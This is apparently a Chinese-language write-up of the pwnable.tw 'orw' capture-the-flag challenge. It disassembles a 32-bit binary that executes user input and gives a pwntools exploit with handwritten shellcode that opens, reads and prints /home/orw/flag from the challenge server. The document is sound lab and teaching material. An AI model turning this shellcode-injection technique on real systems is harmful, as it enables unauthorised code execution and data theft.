


**网站**：https://pwnable.tw/

**Challenge**：orw

### 1、使用file查看文件信息

```bash
$ file orw
orw: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=e60ecccd9d01c8217387e8b77e9261a1f36b5030, not stripped
```

这是一个32位的可执行文件

### 2、使用objdump反汇编

查看main函数

```bash
08048548 <main>:
 8048548:	8d 4c 24 04          	lea    ecx,[esp+0x4]
 804854c:	83 e4 f0             	and    esp,0xfffffff0
 804854f:	ff 71 fc             	push   DWORD PTR [ecx-0x4]
 8048552:	55                   	push   ebp
 8048553:	89 e5                	mov    ebp,esp
 8048555:	51                   	push   ecx
 8048556:	83 ec 04             	sub    esp,0x4
 8048559:	e8 6d ff ff ff       	call   80484cb <orw_seccomp>
 804855e:	83 ec 0c             	sub    esp,0xc
 8048561:	68 a0 86 04 08       	push   0x80486a0
 8048566:	e8 15 fe ff ff       	call   8048380 <printf@plt>
 804856b:	83 c4 10             	add    esp,0x10
 804856e:	83 ec 04             	sub    esp,0x4
 8048571:	68 c8 00 00 00       	push   0xc8
 8048576:	68 60 a0 04 08       	push   0x804a060					# 从标准输入中读取数存到地址为0x804a060的地方
 804857b:	6a 00                	push   0x0
 804857d:	e8 ee fd ff ff       	call   8048370 <read@plt>
 8048582:	83 c4 10             	add    esp,0x10
 8048585:	b8 60 a0 04 08       	mov    eax,0x804a060
 804858a:	ff d0                	call   eax								# 去地址0x804a060的位置去执行代码
 804858c:	b8 00 00 00 00       	mov    eax,0x0
 8048591:	8b 4d fc             	mov    ecx,DWORD PTR [ebp-0x4]
 8048594:	c9                   	leave
 8048595:	8d 61 fc             	lea    esp,[ecx-0x4]
 8048598:	c3                   	ret
 8048599:	66 90                	xchg   ax,ax
 804859b:	66 90                	xchg   ax,ax
 804859d:	66 90                	xchg   ax,ax
 804859f:	90                   	nop
```

可以看到这个程序的功能是输入一些内容，然后跳转到输入的内容中去执行

### 3、运行程序



可以看到程序提示输入shellcode，显然这是一个简单的题目，直接输入shellcode，然后去执行。

### 4、题目分析



题目要求只能使用`open`、`read`、`write`这3个系统调用，显然不能够开shell，所以我们只能通过这3个系统调用读取/`home/orw/flag`来拿到flag。

### 5、exp

```python
from pwn import *

context.arch = 'i386'
context.os = 'linux'

shellcode = asm("""
    nop
    nop
    sub esp, 0x100
    push 0x6761
    push 0x6c662f77
    push 0x726f2f65
    push 0x6d6f682f
    xor edx, edx
    xor ecx, ecx
    mov ebx, esp
    mov eax, 0x5
    int 0x80
    mov edx, 0x80
    mov ecx, esp
    mov ebx, eax
    mov eax, 0x3
    int 0x80
    mov edx, 0x80
    mov ecx, esp
    mov ebx, 1
    mov eax, 0x4
    int 0x80
""")
r = remote('chall.pwnable.tw', 10001)

r.recvuntil('Give my your shellcode:')
r.send(shellcode)

print r.recvall()
r.interactive()
```

### linux syscall table 参考：

> http://asm.sourceforge.net/syscall.html#3
>
> http://faculty.nps.edu/cseagle/assembly/sys_call.html